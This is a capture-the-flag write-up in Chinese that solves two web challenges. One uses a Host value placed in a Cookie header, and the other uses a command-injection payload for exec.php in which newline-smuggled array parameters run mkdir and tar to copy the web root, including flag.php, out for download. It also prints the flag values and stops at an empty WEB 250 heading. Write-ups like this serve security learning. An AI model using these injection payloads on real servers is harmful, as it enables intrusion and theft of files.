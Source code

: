 # WEB 100

**题目名: where is my cat**

这题出的没啥意义，没学到东西..

```
$ curl -v https://106.75.34.78  --insecure
....
subject: C=CN,ST=Beijing,O=ichunqiu,OU=ichunqiu,CN=where_is_my_cat.ichunqiu.com,EMAIL=ctf@ichunqiu.com
....
```

这题卡的挺久的，之后脑洞一开，

`Cookie: Host=where_is_my_cat.ichunqiu.com`

```
$ curl -v https://106.75.34.78  --insecure -H "Cookie: HOST=where_is_my_cat.ichunqiu.com"
......
flag{e5775890-2420-11e7-af19-000c29cb5c9e}
```

getflag

# WEB 150

**题目名：写一写 看一看**

跟HITCON 2015 babyfirst差不多

参考: <http://wps2015.org/drops/drops/HITCON%20CTF%202015%20Quals%20Web%20%E5%87%BA%E9%A1%8C%E5%BF%83%E5%BE%97.html>

测试发现wget不行

然后使用tar

payload1: <http://106.75.34.78:2081/exec.php?shell[]=aa%0a&shell[]=mkdir&shell[]=aklissss>
payload2: <http://106.75.34.78:2081/exec.php?shell[]=a%0A&shell[]=tar&shell[]=cvf&shell[]=aklisssspathaklis666666&shell[]=pathvarpathwwwpathhtml>

在没有cookie的情况下`path` -> `/`

然后访问: <http://106.75.34.78:2081/tmp/aklissss/aklis666666>

把压缩包下载下来

得到`flag.php`:
```
<?php
$flag = "flag{f3dc16b9-5f6f-45fb-a054-d179628ef5bb}";
?>
```

# WEB 250
